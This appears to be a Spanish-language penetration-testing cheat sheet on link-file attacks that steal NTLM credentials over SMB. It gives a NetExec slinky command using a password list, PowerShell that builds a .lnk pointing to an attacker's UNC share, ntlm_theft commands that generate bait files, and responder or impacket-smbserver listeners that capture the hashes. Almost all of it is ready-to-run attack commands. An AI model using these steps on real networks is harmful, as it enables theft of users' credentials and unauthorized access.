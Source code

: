 # Link File Attacks
- [Link File Attacks](https://www.cyborgsecurity.co.uk/2020/10/09/link-file-attacks/)
- Con NetExec `nxc smb 172.16.139.0/24 -u 'pthorpe' -p creds.txt -M slinky -o SERVER=172.16.139.10 NAME=urgent`

- Manual:
    - Código:

    ```powershell
    $objShell = New-Object -ComObject WScript.shell
    $lnk = $objShell.CreateShortcut("C:\test.lnk")
    $lnk.TargetPath = "\\192.168.138.149\@test.png"
    $lnk.WindowStyle = 1
    $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
    $lnk.Description = "Test"
    $lnk.HotKey = "Ctrl+Alt+T"
    $lnk.Save()
    ``` 

    - `smbserver.py -smb2support "icon" .`

## Con NTLM Theft
- `git clone https://github.com/Greenwolf/ntlm_theft`
- `cd ntlm_theft`
- `python3 ntlm_theft.py --generate all --server 10.10.14.48 --filename icon`
- `impacket-smbclient USER:'PASSWORD'@fIP`
    - shares
    - use share con acceso a escritura
- `sudo responder -I tun0` o `impacket-smbserver -smb2support shareName someDir`